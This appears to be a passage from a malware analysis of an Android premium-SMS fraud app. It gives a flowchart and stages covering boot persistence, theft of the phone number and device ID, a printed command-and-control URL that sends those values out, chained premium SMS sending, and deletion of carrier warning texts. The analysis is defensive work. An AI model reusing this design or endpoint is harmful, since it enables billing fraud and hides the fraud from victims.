 and this is a Flow of service and how things connect

{{< mermaid >}}
flowchart TD
    A[Device Boot] --> B[BootService Starts]
    B --> C[Register Receivers]
    C --> D1[Monitor SMS_RECEIVED]
    C --> D2[Monitor SENT_HUGE_SMS_ACTION]
    C --> D3[Monitor MY_RECEIVER]
    D2 --> E{SMS Send Result}
    E -->|Code -1| F[Report 'yes' to C&C]
    E -->|Code 0| G[Report 'no' to C&C]
    E -->|Code 1-4| H[Report Error Code]
    F --> I[Trigger Loading.ACTION_START]
    I --> J[Fetch New SMS Targets]
    J --> K[Send More Premium SMS]
    D1 --> L[Intercept Incoming SMS]
    L --> M[Scan for Block/Stop Keywords]
    M --> N[Auto-Delete Detection Messages]
{{< /mermaid >}}

#### **Detailed Stages:**

1. **Persistence**
    - Auto-starts on device boot via `BootService`
    - Registers 3 critical receivers for SMS monitoring
    
2. **Victim Profiling**
    - Harvests `phone number` via `TelephonyManager.getLine1Number()`
    - Collects `device ID` using `TelephonyManager.getDeviceId()`
    
3. **SMS Operation**
    - Listens for `SENT_HUGE_SMS_ACTION` broadcasts
    - Maps SMS status codes:
        - `-1` → Success (billed)
        - `0` → Generic failure
        - `1-4` → Carrier-specific errors
    
4. **C&C Communication**
    - Sends POST request to:  
        `http://139.59.107.168:8088/smspostback?phone=[NUMBER]&status=[STATUS]&diviceid=[ID]`
    - Uses persistent connection with 5s timeout
    - Logs server response (SUCCESS/ERROR)
    
5. **Chained Malicious Payload**
    - On successful SMS (`status=yes`):
        - Broadcasts `Loading.ACTION_START`
        - Triggers new premium SMS waves
        - Updates target numbers from C&C
    
6. **Anti-Detection**
    - Intercepts incoming SMS (`SMS_RECEIVED`)
    - Deletes messages containing "STOP", "BLOCK", or "CANCEL"

#### Sending the sms (loading.class)
